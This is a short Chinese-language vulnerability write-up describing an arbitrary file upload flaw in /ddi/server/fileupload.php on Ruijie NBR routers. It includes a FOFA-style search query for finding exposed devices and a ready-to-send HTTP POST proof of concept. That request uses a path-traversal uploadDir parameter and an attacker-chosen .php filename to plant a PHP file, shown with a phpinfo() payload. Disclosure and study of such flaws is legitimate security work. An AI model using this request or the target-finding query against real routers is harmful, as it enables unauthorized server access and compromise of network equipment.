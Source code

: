 # 锐捷 NBR 路由器 fileupload.php 任意文件上传漏洞

## 漏洞描述

锐捷 NBR 路由器 fileupload.php文件存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器获取服务器权限

## 漏洞影响

<a-checkbox checked>锐捷 NBR 路由器</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Ruijie-NBR路由器"</a-checkbox></br>

## 漏洞复现

![img](/assets/PeiQi-Wiki/img/1647768741978-90d9f47d-e003-4565-9153-9ccd7fbda5cc.png)

出现漏洞的文件在 /ddi/server/fileupload.php， 该文件为标准的文件上传文件

![img](/assets/PeiQi-Wiki/img/1647768806049-76ae4f06-3df1-43cc-9154-2dfffafddcaf.png)

文件名及目录均可控，导致可以任意上传文件

```php
POST /ddi/server/fileupload.php?uploadDir=../../321&name=123.php HTTP/1.1
Host: 
Accept: text/plain, */*; q=0.01
Content-Disposition: form-data; name="file"; filename="111.php"
Content-Type: image/jpeg

<?php phpinfo();?>
```

![img](/assets/PeiQi-Wiki/img/1647768840891-cb2de5f0-98bb-40e0-9b9e-bcf348864f85.png)

访问上传的文件目录

![img](/assets/PeiQi-Wiki/img/1647768865012-128cd155-75d0-4e94-a1fc-dbed5df6f8dc.png)